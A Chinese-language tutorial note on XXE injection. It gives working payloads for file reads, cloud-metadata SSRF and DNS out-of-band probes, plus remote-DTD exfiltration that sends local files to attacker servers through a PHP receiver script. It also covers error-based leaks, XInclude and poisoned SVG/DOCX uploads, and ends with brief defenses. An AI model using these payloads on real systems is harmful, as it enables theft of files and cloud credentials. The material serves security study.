


# XXE安全总览



精简版直接看小迪2024-72天

# 基础知识

### 什么是XML

XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。等同于JSON传输。

### XML与HTML区别

XML 被设计为传输和存储数据，其焦点是数据的内容。

HTML 被设计用来显示数据，其焦点是数据的外观。

HTML 旨在显示信息 ，而XML旨在传输存储信息

### XML与JSON区别

**xml**

在请求头中content-type为application/xml

在数据包的请求体格式为

```
<?xml version=xxxx   xxxxxxxxxx?>
<xxxx>xxxx</xxxx>
<xxxx>xxxx</xxxx>
类似html格式
```

EG:

```xml
<products>
    <product>
        <id>1</id>
        <name>Smartphone</name>
        <brand>XYZ</brand>
        <price>499.99</price>
        <specs>
            <screenSize>6.5 inches</screenSize>
            <ram>8GB</ram>
            <storage>128GB</storage>
        </specs>
        <inStock>true</inStock>
    </product>
    <product>
        <id>2</id>
        <name>Laptop</name>
        <brand>ABC</brand>
        <price>999.99</price>
        <specs>
            <screenSize>15.6 inches</screenSize>
            <ram>16GB</ram>
            <storage>512GB</storage>
        </specs>
        <inStock>false</inStock>
    </product>
</products>
```

**JSON**

在请求体中为键值对的形式

EG：

```json
{
    "products": [
        {
            "id": 1,
            "name": "Smartphone",
            "brand": "XYZ",
            "price": 499.99,
            "specs": {
                "screenSize": "6.5 inches",
                "ram": "8GB",
                "storage": "128GB"
            },
            "inStock": true
        },
        {
            "id": 2,
            "name": "Laptop",
            "brand": "ABC",
            "price": 999.99,
            "specs": {
                "screenSize": "15.6 inches",
                "ram": "16GB",
                "storage": "512GB"
            },
            "inStock": false
        }
    ]
}
```

### 什么是XXE

XXE漏洞XML External Entity Injection，即**xml外部实体注入漏洞**：XXE漏洞发生在应用程序解析XML输入时，没禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网扫描、攻击内网等危害。

# 漏洞发现

### 黑盒特征

可能存在XXE漏洞的特征：

1.看到url文件名是否.ashx后缀扩展名

2.获取获取得到Content-Type或数据类型为xml时，尝试xml语言payload进行测试

​    抓数据包，发现content-type为application/xml

​                         请求体为XML格式

3.不管获取的Content-Type类型或数据传输类型，均可尝试修改后提交测试xxe

改数据包中的content-type为application/xml，然后尝试xxe注入

```
eg:
http://web.jarvisoj.com:9882/

打开然后抓包可以看到对方是content-type=application/json,请求体是json格式，但对方网站也支持xml格式解析，更改content-type=application/xml,然后用一下XXE文件读取的poc，利用成功
```

4..XXE不仅在数据传输上可能存在漏洞，同样在文件上传引用插件解析或预览也会造成文件中的XXE Payload被执行

```
基于XML的Web服务： SOAP、REST和RPC API这些接收和处理XML格式
导入/导出功能： 任何以 XML 格式传输数据的进出口
RSS/Atom 订阅处理器： 订阅功能也可能隐藏着 XXE 漏洞。
文档查看器/转换器： 处理DOCX、XLSX等XML 格式文档的功能
文件上传处理 XML： 比如SVG图像处理器，上传图片也可能中招！
```

发现一个网站对DOCS,SVG,SOAP这些格式的文件进行操作时，可能就会对其中的xml数据进行解析，而攻击者又可以自定义修改上传文件中的xml数据，因此就可能存在xxe注入

### 白盒审计

#### 漏洞函数

simplexml_load_string

loadxml()

##### 演示案例

```
1、漏洞函数simplexml_load_string
2、pe_getxml函数调用了漏洞函数
3、wechat_getxml调用了pe_getxml
4、notify_url调用了wechat_getxml
访问notify_url文件触发wechat_getxml函数,构造Paylod测试

先尝试读取文件，无回显后带外测试：
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://1uwlwv.dnslog.cn">
    %file;
]>
<root>&send;</root>

最后成功，证明存在该漏洞，后续利用：
然后带外传递数据解决无回显：
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/1.txt">
<!ENTITY % remote SYSTEM "http://47.94.236.117/test.dtd">
%remote;
%all;
]>
<root>&send;</root>

test.dtd：
<!ENTITY % all "<!ENTITY send SYSTEM 'http://47.94.236.117/get.php?file=%file;'>">
```

# 分类

简洁版看小迪2024-72天文档

在下面的例子中，xiaodi8.com为攻击者攻击时使用的远程搭建的服务器



- 利用时不是把整个数据包的请求体中的XML数据换成下面的数据，要看对方网站的格式，一般需要修改的就两个点：引用实体，定义实体
- 比如以下面文件读取的poc为例，对方的网站原本数据就是

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
   <productId>
       1
   </productId>
   <storeId>
       1
   </storeId>
</stockCheck>
```

然后实现xxe注入时才改成

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
   <productId>
       &xxe;
   </productId>
   <storeId>
       1
   </storeId>
</stockCheck>
```

### 有回显

#### 文件读取注入

###### 利用

```xml
原数据
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
   <productId>
       1
   </productId>
   <storeId>
       1
   </storeId>
</stockCheck>

poc：

<?xml version="1.0" encoding="UTF-8"?>
----------------------------------------------------------------
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
-------------------------------------------------------------------
<stockCheck><productId>&xxe;</productId><storeId>1</storeId>
    </stockCheck>
```

**解释**：

```xml
1.<?xml version="1.0" encoding="UTF-8"?>     

//XML 声明，表明文档为 XML 格式，版本是 1.0，使用的字符编码为 UTF - 8

2.<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
定义实体
//<!DOCTYPE test [ ... ]>：这是文档类型定义（DTD）声明，定义了 XML 文档的结构和规则。test 是文档类型的名称。
//<!ENTITY xxe SYSTEM "file:///etc/passwd">：这里定义了一个外部实体,名字叫做xxe。SYSTEM 表示该实体引用的是外部资源，"file:///etc/passwd" 表名该实体引用的外部资源为读取etc/passwd 
//DTD 声明了名为 XXE 的外部实体，该实体引用的外部资源是 file:///etc/passwd，这意味着解析器会尝试读取 etc/passwd 文件的内容作为实体的值。

3.<stockCheck><productId>&xxe;</productId><storeId>1</storeId>
  </stockCheck>
引用实体
//<stockCheck>：这是根元素
//<productId>&xxe;</productId>：&xxe; 是对之前定义的外部实体 xxe 的引用。当存在漏洞的 XML 解析器解析这个 XML 文档时，会尝试将 &xxe; 替换为 /etc/passwd 文件的内容。
 对 XXE 实体的引用会导致解析器将 XXE 实体的值（即 etc/passwd 的内容）替换到引用的位置
//<storeId>1</storeId>：这是另一个子元素，其值为 1
```

###### 原理

当对方主机收到这个请求包后，开始分析这个数据包，在数据包中，DTD声明了一个名为XXE的外部实体，且该外部实体引用的外部资源，将值等于读取etc/passwd的值

然后在后面的XML数据中，出现了对XXE该实体的引用，而对 `XXE` 实体的引用会导致解析器将 `XXE` 实体的值（即 `etc/passwd` 的内容）替换到引用的位置。

------

#### SSRF元数据注入

###### 利用

1.远程开一个服务器，写文件file.dtd

```
<!ENTITY send SYSTEM "file:///d:/x.txt">
```

2.在存在XXE注入的云服务器应用上更改数据包

```
原数据:
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
   <productId>
       1
   </productId>
   <storeId>
       1
   </storeId>
</stockCheck>

POC:
<?xml version="1.0" encoding="UTF-8"?>
--------------------------------------------------------------

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
--------------------------------------------------------------

<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>

```

3.外部引用实体dtd：

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://xiaodi8.com/file.dtd">
    %file;
]>
<user><username>&send;</username><password>xiaodi</password></user>
```


###### 元数据

元数据解释：

实例元数据（metadata）包含了弹性计算云服务器实例在阿里云系统中的信息，您可以在运行中的实例内方便地查看实例元数据，并基于实例元数据配置或管理实例。（基本信息：实例ID、IP地址、网卡MAC地址、操作系统类型等信息。实例标识包括实例标识文档和实例标识签名，所有信息均实时生成，常用于快速辨别实例身份。）

各大云元数据地址：

阿里云元数据地址：http://100.100.100.200/

腾讯云元数据地址：http://metadata.tencentyun.com/

华为云元数据地址：http://169.254.169.254/

亚马云元数据地址：http://169.254.169.254/

微软云元数据地址：http://169.254.169.254/

谷歌云元数据地址：http://metadata.google.internal/

###### 原理

将xxe实体的值为元数据的地址，通过引用xxe实体让服务器去访问云数据地址，元数据包含了云服务器在别的系统【如阿里云】中的信息，当服务器访问云数据地址时，可以获取当前云账户的一些敏感信息

相当于借助XXE让目标主机去访问云数据地址，并返回在云服务器上存储的敏感信息，也就是SSRF

#### 外部引用实体

**外部引用实体可用于绕过过滤**

其本质还是文件读取，只不过为了绕过对方对实体内容的检测和过滤，采取远程参数实体传实体内容的方式间接进行文件读取【即参数传值】

###### 利用

1.先远程在一个服务器上写一个dtd文件file.dtd

```dtd
<!ENTITY send SYSTEM "file:///d:/x.txt">
```

2.再把file.dtd上传至远程服务器的网站目录`http://xiaodi8.com/file.dtd`

3.再将目标主机的数据包替换为如下

```xml
原数据：
<user>
   <username>
        1111
   </username>
   <password>
         111
   </password>
</user>


POC:
<?xml version="1.0" ?>
-----------------------------------------------------------
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://xiaodi8.com/file.dtd">
    %file;
]>

-----------------------------------------------------------
<user>
   <username>
        &send;
   </username>
   <password>
         111
   </password>
</user>

```

###### 解释

在对方收到poc后，先看到%file,也就是输出file参数实体的值，而file的值在代码

```
<!ENTITY % file SYSTEM "http://xiaodi8.com/file.dtd">
```

中有说明：把file的值替换成远程加载的http://xiaodi8.com/file.dtd文件中的值，则%file就为http://xiaodi8.com/file.dtd文件中的值，也就是%file变成了下面的代码

```
<!ENTITY send SYSTEM "file:///d:/x.txt">
```

上面的代码定义了一个send实体，把file:///d:/x.txt文件中的值给了send实体  ，而后面&send又要输出send实体的值，所以就输出了file:///d:/x.txt文件中的值

-------

```xml
file.dtd
<!ENTITY send SYSTEM "file:///d:/x.txt">
这里定义了一个外部实体,名字叫做send。SYSTEM 表示该实体引用的是外部资源，"file:///d:/x.txt" 表名该实体引用的外部资源为读取d:/x.txt并将其值赋给send


<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://xiaodi8.com/file.dtd">
    %file;
]>
// <!DOCTYPE test ：文档类型定义（DTD）声明，定义了 XML 文档的结构和规则。test 是文档类型的名称。
//  <!ENTITY % file SYSTEM "http://xiaodi8.com/file.dtd">：定义一个名为file的参数实体，把http://xiaodi8.com/file.dtd文件中的值赋给file
//%file : 输出file的值，也就是输出http://xiaodi8.com/file.dtd的值：<!ENTITY send SYSTEM "file:///d:/x.txt">
   
%file变成了<!ENTITY send SYSTEM "file:///d:/x.txt">，而下面又有send实体的引用，所以后面就和文件读取没什么区别了
```

- 参数实体是一种特殊的实体，它的主要用途是在 DTD 内部复用代码片段，并且只能在 DTD 内部使用。

### 无回显

#### dns外带【配合BP】

dns带外可用于判断有无漏洞

###### 利用

1.先让bp连接一个dnslog：

BP-Collaborator模块【带外模块】-开启；

BURP-设置-Project-Collaborator-使用私有Collaborator服务器:b.burp2.psint.co

BP-Collaborator模块-生成的Payload-复制到剪贴板（复制dns外带对应的dnslog地址）

2.替换数据包

```
原数据：
<user>
   <username>
        1111
   </username>
   <password>
         111
   </password>
</user>

POC:
<?xml version="1.0" ?>
-----------------------------------------------------------
<!DOCTYPE test [
    <!ENTITY xxx SYSTEM "粘贴dns外带对应的请求访问dnslog地址">
    
]>

-----------------------------------------------------------
<user>
   <username>
        &sxxx;
   </username>
   <password>
         111
   </password>
</user>
```

3.放包，查询对应的Collaborator模块-立即查询中有无收到请求，有则存在XXE漏洞

###### 解释

`<!ENTITY xxx SYSTEM "粘贴dns外带对应的dnslog地址">`定义了一个xxx实体，其值为dns外带对应的请求访问dnslog地址，则目标主机就会执行dns外带查询

#### 外部引用实体配合DNS外带

**用于无回显**

参数传值不一定只能用于绕过过滤，同样可以用参数传值来远程写文件解决无回显问题

###### 利用

1.先远程服务器上写一个dtd文件test.dtd

```dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://www.xiaodi8.com/get.php?file=%file;'>">
```

2.再写一个get.php脚本来接受回显

```
<?php
$data=$_GET['file'];
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>
```

3.替换目标主机的数据包

```xml
原数据：
<user>
   <username>
        1111
   </username>
   <password>
         111
   </password>
</user>

POC：
<?xml version="1.0"?> 
-------------------------------------------------------------------
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///c:/c.txt">
<!ENTITY % remote SYSTEM "http://www.xiaodi8.com/test.dtd">
%remote;
%all;
]>
---------------------------------------------------------------
<user><username>&send;</username><password>xiaodi</password></user>

```

###### 解释

目标主机解析时先看到%remote,输出remote参数实体的值，而remote的值在代码

```xml
<!ENTITY % remote SYSTEM "http://www.xiaodi8.com/test.dtd">
```

有说明，则输出http://www.xiaodi8.com/test.dtd的值，也就是%remote变成了代码

```dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://www.xiaodi8.com/get.php?file=%file;'>">
```

%remote解析完，接着下一步继续解析，然后目标主机解析时又看到了%all，输出all参数实体的值，而all的值就在刚刚上面的代码中有说明。则%all就变成了

```dtd
<!ENTITY send SYSTEM 'http://www.xiaodi8.com/get.php?file=%file;'>
```

然后后面又引用了&send，则就会输出

```url
http://www.xiaodi8.com/get.php?file=%file
```

的值，而%file又在代码

```
<!ENTITY % file SYSTEM "file:///c:/c.txt">
```

中说明其值等于file:///c:/c.txt，则此时就会执行

```
http://www.xiaodi8.com/get.php?file=file:///c:/c.txt
```

而get.php的代码有写明了会接受file参数，并将值写入到file.txt文件中

所以最后就会把file:///c:/c.txt读取到的结果写到file.txt文件中

#### 外部引用实体配合报错解析注入

**条件**：当对方代码中写了报错后回显的报错处理的代码时可以使用报错注入

###### 利用

1.现在远程服务器目录`https://exploit-0ab2006f03dce8a4803dfde101f3007d.exploit-server.net/exploit`文件上写上代码

```DTD
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

2.抓目标主机存在XXE注入漏洞点的数据包，修改数据：

```xml
原数据：
<?xml version='1.0' encoding="UTF-8"?>
  <stockCheck>
     <productId>
             1
     </productId>
     <stordId>
             1
     </stordId>
  </stockCheck>


poc：
<?xml version='1.0' encoding="UTF-8"?>
   <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-   0ab2006f03dce8a4803dfde101f3007d.exploit-server.net/exploit">  %xxe;]>

  <stockCheck>
     <productId>
             1
     </productId>
     <stordId>
             1
     </stordId>
  </stockCheck>

```

3.方包，通过报错看到回显的数据

###### 解释

对方主机收到数据包后，先看到%xxe,然后解析xxe参数的值，xxe指向远程目录，于是远程解析远程目录的代码，所以最后%xxe变成了代码

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

然后对方主机又看到了%eval，于是解析eval参数的值，%eval就变成了代码

```dtd
<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>
```

接着对方主机又看到了%exfil，于是解析exfil参数的值，exfil在上面的代码有说明，于是变成了解析`file:///invalid/%file`的值

接着对方主机看到了%file，解析file参数的值，于是%file变成了file:///etc/passwd，所以最后%exfil变成了解析`file:///invalid/file:///etc/passwd`的值

由于该目录语法错误/目录不存在，于是出现报错，由于对方网站的设置，报错的数据回显在了数据包，且其中包含在刚刚整个解析过程中解析出`file:///etc/passwd`的值

# 实战扩展

### 案例

https://mp.weixin.qq.com/s/1pj9sbwKT6RjIiLgNC7-Gg

https://mp.weixin.qq.com/s/Mgd91_Iie-wZU7MqP5oCXw

### xinclude利用

##### 什么是xinclude

xinclude可以理解为xml include,它是xml标记语言中包含其他文件的方式

[浅析xml之xinclude & xslt-安全KER - 安全资讯平台](https://www.anquanke.com/post/id/156227)

如下面的代码

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>


解释：
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <foo> 是根元素，作为整个 XML 文档的起始标签。    
     xmls： XML 命名空间声明的关键字
     xmlns:xi="http://www.w3.org/2001/XInclude 
        若要使用 XHTML 的元素和属性，就得使用 xmlns="http://www.w3.org/1999/xhtml" 来声明默认的命名空间。
        若要使用 XInclude 的功能，就得使用 xmlns:xi="http://www.w3.org/2001/XInclude" 来声明 xi 前缀对应的命名空间。
<xi:include parse="text" href="file:///etc/passwd"/>
      <xi:include> 是 XInclude 规范里的一个元素，其作用是把外部资源的内容包含到当前 XML 文档中。
       parse="text" 是一个属性，表明被包含的资源应被当作纯文本进行处理.
       href="file:///etc/passwd" 也是一个属性，指定了要包含的外部资源的位置。
 </foo>:这是根元素 <foo> 的结束标签，标志着 XML 文档的结束。
```

##### 什么时候用xinclude

在实战中，有的应用程序不采取传递完整的xml文档来进行数据交互，而是接受一些xml文档中具体用到的参数的数据，然后再服务器端再把该数据嵌套在xml文档中

  这些网站或程序并不是接受完整的xml文档，而是采取把接受到的数据在到服务器端去修改本地的xml文档，然后再去解析本地的文档

- 在这种情况下，xxe常见的特征并不会出现（如数据包中content-type的值并不是application/xml）

EG:

常见的网站采用完整的xml文档数据传输，其数据包中的请求体如下：

```
<?xml version='1.0' encoding="UTF-8"?>
  <stockCheck>
     <productId>
             1
     </productId>
     <stordId>
             1
     </stordId>
  </stockCheck>
```

同样的xml文档数据，有的网站或应用程序只选择接收客户端提交的数据，然后在服务器端将其嵌套在xml文档中，最后再解析该文档，如下：

```
只接受前端的数据：

xxx.com/xxxx?productId='123'&storId="456"

然后自己在服务器端修改本地的xml文档，最后再进行解析：

<?xml version='1.0' encoding="UTF-8"?>
  <stockCheck>
     <productId>
             123
     </productId>
     <stordId>
             456
     </stordId>
  </stockCheck>
```

##### 怎么用xinclude

xinclude是一种数据格式，当遇到上面的情况时

```xml
对方只接受前端的数据，不接收完整的xml文档
因此我们传参： 

xxx.com/xxxx?productId='123'&storId="<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
"

则对方后端修改完后的xml文档如下：

<?xml version='1.0' encoding="UTF-8"?>
  <stockCheck>
     <productId>
             123
     </productId>
     <stordId>
            <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
     </stordId>
  </stockCheck>
```

### 文件解析

案例文章：[XXE 在文件上传当中的应用-先知社区](https://xz.aliyun.com/news/16463)

一些应用程序接受文件后会对其进行解析，可以使用基于xml格式的文件进行测试

如svg图像，docx文档，RSS邮件等等，详细看XXE总览图片

```
基于XML的Web服务： SOAP、REST和RPC API这些接收和处理XML格式
导入/导出功能： 任何以 XML 格式传输数据的进出口
RSS/Atom 订阅处理器： 订阅功能也可能隐藏着 XXE 漏洞。
文档查看器/转换器： 处理DOCX、XLSX等XML 格式文档的功能
文件上传处理 XML： 比如SVG图像处理器，上传图片也可能中招！


总结来说有三点：
1.存在上传文件
2.该文件支持xml格式
3.网站会对该文件进行解析，有解析代码的功能
```

##### 不安全的图像读取-SVG


发现网站有允许提交一个图片，并之后会对其进行解析（比如提交一个图片当做头像）

可以自定义一个svg为后缀的文件，其内容为：

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

```

```
解释：
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;
</text>
</svg>
就这，没啥可解释的，到时真实践时再去了解
```

此时再回到网站查看解析后的图片，就可以看到解析结果【如查看成功上传后的头像，可以看到读到的etc/passwd的结果】

###### **可能功能点**：

图片在线预览，图片在线编辑，数据包中出现date:image/svg+xml

##### 不安全的文档转换-docx

案例文章：https://mp.weixin.qq.com/s/biQgwMU2v1I92CsDOFRB7g

 **原理**：

docx文件本质就是一个压缩包，可以用压缩包的打开软件开启

而docx文件用压缩包的方式打开后，可以看到许多零散的xml的文件，是这些零散的xml文件最终组成这个docx文件

当一些网站试图对一个docx文件进行数据提取时，本质就是提取这些xml文件的内容，若对这些xml文件内容修改加入或替换成xxe的攻击代码

【不能乱写，容易出现缩进什么的一些问题，最好把原数据和攻击代码都交给ai，让ai重新整合】

- 最常用的是`document.xml`

###### **可能功能点**

遇见处理docx格式文档的功能，如格式转换，文件查看，上传docx文件并提取内容等功能时可以尝试

##### 不安全的传递服务-SOAP

SOAP 是基于 XML 的简易协议，可使应用程序在 HTTP 之上进行信息交换。

api中有的接口会用到soap协议

soap数据格式：

```
<?xml version="1.0" encoding="utf-16"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <soap:Body>
    <PGetPo xmlns="http://tempuri.org/">
      <startDate></startDate>
      <endDate></endDate>
      <appKey>luoma</appKey>
    </PGetPo>
  </soap:Body>
</soap:Envelope>
```

# 防御

- 方案1-禁用外部实体

PHP:

`libxml_disable_entity_loader(true);`

JAVA:

`DocumentBuilderFactory dbf=DocumentBuilderFactory.newInstance();dbf.setExpandEntityReferences(false);`

Python：

`from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))`

- 方案2-过滤用户提交的XML数据

过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC

